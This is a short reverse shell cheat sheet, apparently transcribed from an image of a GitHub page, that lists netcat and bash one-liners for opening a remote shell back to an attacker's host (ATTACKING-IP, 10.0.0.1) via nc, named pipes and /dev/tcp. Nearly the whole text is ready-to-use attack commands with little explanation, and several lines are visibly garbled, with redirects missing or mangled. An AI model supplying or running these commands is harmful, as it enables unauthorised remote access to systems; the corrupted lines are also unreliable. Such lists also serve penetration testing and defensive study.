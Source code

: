 # Reverse Shell Cheat Sheet

## Netcat Reverse Shells

> nc -e /bin/sh 10.0.0.1 1234

> /bin/sh | nc ATTACKING-IP 80

> rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

## Bash Reverse Shells

> exec /bin/bash 0&0 2>&0

> 0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

> exec 5<>/dev/tcp/ATTACKING-IP/80
> cat <&5 | while read line; do $line 2>&5 >&5; done
### OR
> while read line 0<&5; do $line 2>&5 >&5; done

> bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
